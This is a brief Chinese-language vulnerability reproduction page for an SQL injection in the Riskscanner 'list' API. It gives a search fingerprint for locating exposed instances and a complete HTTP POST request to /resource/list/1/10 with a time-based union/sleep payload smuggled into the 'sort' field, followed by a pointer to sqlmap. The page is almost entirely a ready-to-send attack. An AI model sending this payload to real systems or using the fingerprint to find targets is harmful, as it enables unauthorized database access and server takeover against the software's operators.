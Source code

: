 # Riskscanner list SQL注入漏洞

# Riskscanner list SQL注入漏洞

## 漏洞描述

Riskscanner list接口存在SQL注入漏洞，通过漏洞可获取服务器权限

## 漏洞影响

```
Riskscanner
```

## 网络测绘

```
title="Riskscanner"
```

## 漏洞复现

登录页面



![](/images/202202101940023.png)



发送漏洞请求包



```plain
POST /resource/list/1/10 HTTP/1.1
Host: 
Content-Length: 41
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Type: application/json;charset=UTF-8

{"sort":"1)a union select sleep(5) -- -"}
```



![](/images/202202101940005.png)



使用工具Sqlmap



![](/images/202202101940424.png)

